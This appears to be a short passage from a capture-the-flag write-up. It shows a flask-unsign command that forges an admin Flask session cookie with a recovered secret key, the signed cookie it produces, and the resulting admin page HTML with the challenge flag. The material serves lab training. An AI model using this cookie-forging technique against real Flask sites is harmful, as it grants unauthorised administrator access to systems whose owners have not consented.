 ```
flask-unsign --sign --cookie "{'user': 'admin'}" --secret 77c4a9f25dc85c64473800c4db4260c8d2dbc748
eyJ1c2VyIjoiYWRtaW4ifQ.ZyJgaw.0BYtf22_fTtcau4Jt4ML0RFCgtI
```

```
 <div class="grid justify-center bg-zinc-700">
    <!--TODO: disable guest default account -->
    <h1 class="m-5 text-slate-500"> Welcome <b class="text-green-600">admin</b>. </h1>
    <h1 class="m-5 text-slate-500"> FINCTF{S3CUR1TY_M1SC0NF1GUR4T10N_60afeb1d29c5a5b25206} </h1>
    <p class="m-5 text-green-600"> 
      Hello my dear Administrator !
    </p>
  </div>
```
![alt text](img/bye.gif)